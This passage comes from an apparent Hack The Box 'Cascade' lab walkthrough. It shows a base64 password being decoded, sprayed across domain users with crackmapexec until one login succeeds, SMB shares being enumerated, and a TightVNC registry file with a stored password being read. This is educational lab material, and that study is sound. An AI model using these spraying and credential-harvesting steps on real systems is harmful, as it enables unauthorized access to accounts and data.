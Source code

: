 We see that we have a `cascadeLegacyPwd` which contains a password `base64` encoded.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # echo "clk0bjVldmE=" |base64 -d;echo
rY4n5eva
```

We could try to spray the credentials of the `username` list.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec smb 10.10.10.182 -u users.lst -p pass.lst --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

We try to list the `SMB` shares.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec5.1.1 smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/IT/Temp/s.smith]
└──╼ # ls                                
'VNC Install.reg'                      
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade/smb/IT/Temp/s.smith]
└──╼ # cat VNC\ Install.reg         
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]                       

*** SNIP ***

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

*** SNIP ***
```
